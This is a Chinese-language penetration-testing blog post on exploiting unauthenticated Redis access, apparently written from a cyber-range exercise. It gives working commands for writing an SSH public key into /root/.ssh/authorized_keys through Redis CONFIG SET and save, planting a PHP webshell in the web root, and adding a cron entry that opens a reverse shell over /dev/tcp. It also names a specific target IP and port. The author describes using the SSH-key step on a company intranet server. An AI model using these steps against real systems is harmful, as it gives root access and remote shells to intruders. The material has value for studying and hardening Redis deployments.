 ```yaml
---
title: Redis未授权访问
date: 2019-02-27 14:24:10
tags: 漏洞
categories: 渗透测试
---
```


# 0x01 漏洞简介
Redis默认配置未配置密码，如果Redis以root用户运行，攻击者可以给root账号写入SSH公钥文件，直接通过SSH免密登录服务器。Redis默认端口为6379端口。若此端口未限制公网访问，会导致Redis服务暴露公网，造成未授权访问。
<!--more-->

# 0x02 攻击手段
## 连接测试
已知网络靶场IP为219.153.49.228，Redis端 口为47234，提供了http端口为41481。使用redis客户端进行连接尝试：
```bash
./redis-cli -h 219.153.49.228 -p 47234
```
![](2019-02-27-Redis未授权访问\连接测试.PNG)

## 本地生成公私钥
若Redis以root用户运行，可以直接将本地生成的公钥导入到/root/.ssh/authorized.keys文件中实现免密登录。
```bash
ssh-keygen -t rsa
```
![](2019-02-27-Redis未授权访问\生成公私钥.PNG)

## 公钥写入
由于网络靶场写入/root/.ssh/的权限受限，因此以之前对公司内网测试获取的一台Redis服务器为例。
先将公钥写入文件：
```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > h.txt
```
![](2019-02-27-Redis未授权访问\公钥写入文件.png)

将h.txt的内容写入到redis服务器key为test对应的value中。
```bash
cat h.txt | /usr/redis/./redis-cli -h xxx.xxx.xxx.xxx -p 6389 -x set test
```
![](2019-02-27-Redis未授权访问\写入value.PNG)

设置redis的dbfilename路径为/root/.ssh/authorized_keys，并保存。
```
config set dir /root/.ssh

config set dbfilename authorized_keys

save
```
![](2019-02-27-Redis未授权访问\修改dbfilename.png)

直接使用ssh访问服务器查看权限和文件，可见为root权限用户。
![](2019-02-27-Redis未授权访问\查看权限.png)

## 写入webshell
网络靶场写入/root/.ssh/的权限受限，且存在php站点，因此尝试写入webshell。
设置Redis备份目录为php站点目录：/var/www/html/，文件名任意。
![](2019-02-27-Redis未授权访问\写入webshell.png)

使用浏览器访问webshell，可以正常访问。
![](2019-02-27-Redis未授权访问\连接webshell.png)

## 写入定时任务
同理，将Redis备份目录改为/var/spool/cron，使用nc进行监听反弹shell。
```
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/ip_addr/port 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
```

# 0x03 参考
[Redis未授权访问详解](https://www.freebuf.com/column/158065.html)
